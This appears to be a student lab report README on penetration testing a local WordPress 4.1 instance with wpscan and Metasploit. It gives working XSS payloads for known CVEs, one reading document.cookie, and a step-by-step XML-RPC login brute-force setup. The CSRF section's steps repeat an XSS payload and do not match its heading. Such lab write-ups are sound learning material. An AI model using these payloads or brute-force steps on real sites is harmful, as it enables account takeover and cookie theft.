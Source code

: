 # Pen Testing Report On Wordpress
Testing certain penetration methods on WordPress 4.1

## Intial Scan
1.  The first step in my initial scan was to have the docker images of both wordpress and kali running. With kali invoked we will first update the WordPress scans database using 
wpscan --update

2.	Now, I ran wpscan against the running WordPress instance on my local host. Using the following command 
wpscan --url http://127.0.0.1:8080 --api-token YOUR_API_TOKEN
Once scan was run 92 vulnerabilities were found 
 ![](CodePath_WPintialScan.gif)

## Vulenabilities 
### 1. WordPress <= 5.0 - Authenticated Cross-Site Scripting (XSS)
 Fixed in: 4.1.25
References:
- https://wpscan.com/vulnerability/3182002e-d831-4412-a27d-a5e39bb44314
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20153
- https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/

 ![](first_Vuln_.gif)
 
 Steps to recreate:
 
 1.Login as admin
 
 2.Create a post as authenticated user.
 
 3. Paste script>alert(xss)</script>
 
 ### 2. WordPress 2.8-4.7 - Accessibility Mode Cross-Site Request Forgery (CSRF)
Fixed in: 4.1.14
References:
 - https://wpscan.com/vulnerability/e080c934-6a98-4726-8e7a-43a718d05e79
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5492
 - https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733
- https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/

![](secound_Vuln_.gif)

 Steps to recreate:
 1.Login as admin
 2.Create a post as authenticated user.
 3. <script>alert(document.cookie)</script>

 
 ### 3. WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
Fixed in: 4.1.16
References:
- https://wpscan.com/vulnerability/3ee54fc3-f4b4-4c35-8285-9d6719acecf0
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
- https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
 - https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
 - https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
 
  Steps to recreate:
  
 1.Login as admin
 
 2.Create a post as authenticated user.
 
 3. Change from visual tab to text tab 

4. Paste [embed src='https://www.youtube.com/embed/1235689\x3csvg onload=alert(1)\x3e'][/embed]
 
![](four_Vuln_.gif)
 
### 4. Username and password enumeration using metasploit 
 
![](third_Vuln_.gif)

Steps to recreate 

1. start up metsplsoit 

2. Find correct payload, use following commands
   -search type:auxiliary wordpress xmlrpc
   -use auxiliary/scanner/http/wordpress_xmlrpc_login 
  
3. Set target and conditions for payload
   - setg RHOSTS 127.0.0.1
   - set RPORT 8080
   - set traget uri /
   - set STOP_ON_SUCESS
   - set username/password or useneme/password  files (ex. set PASS_FILE password.txt)
   - set Httptrace TRUE
   - run
 
 If your files contain the correct username and password once matched the payload will stop running. 

   


